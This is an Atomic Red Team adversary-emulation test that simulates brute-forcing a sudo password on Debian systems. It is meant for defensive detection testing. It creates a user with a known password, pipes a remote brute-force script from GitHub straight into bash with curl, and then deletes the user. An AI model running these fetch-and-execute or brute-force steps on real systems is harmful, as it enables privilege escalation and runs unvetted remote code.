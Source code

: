 


<br/>
<br/>

## Atomic Test #5 - SUDO Brute Force - Debian
An adversary may find themselves on a box (e.g. via ssh key auth, with no password) with a user that has sudo'ers privileges, but they do not know the users password. Normally, failed attempts to access root will not cause the root account to become locked, to prevent denial-of-service. This functionality enables an attacker to undertake a local brute force password guessing attack without locking out the root user. 

This test creates the "art" user with a password of "password123", logs in, downloads and executes the sudo_bruteforce.sh which brute force guesses the password, then deletes the user

**Supported Platforms:** Linux


**auto_generated_guid:** ba1bf0b6-f32b-4db0-b7cc-d78cacc76700





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1110.001/src/sudo_bruteforce.sh|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -G sudo -s /bin/bash -p $(openssl passwd -1 password123) art
su art
cd /tmp
curl -s #{remote_url} |bash
```

#### Cleanup Commands:
```bash
userdel -fr art
```



#### Dependencies:  Run with `bash`!
##### Description: Check if running on a Debian based machine.
##### Check Prereq Commands:
```bash
if grep -iq "debian\|ubuntu\|kali\|mint" /usr/lib/os-release; then echo "Debian"; else echo "NOT Debian"; exit 1; fi
if grep -Rq "pam_tally" /etc/pam.d/*; then echo "pam_tally configured"; exit 1; fi
if [ -x "$(command -v openssl)" ]; then echo "openssl is installed"; else echo "openssl is NOT installed"; exit 1; fi
if [ -x "$(command -v sudo)" ]; then echo "sudo is installed"; else echo "sudo is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```bash
apt update && apt install -y openssl sudo curl
```
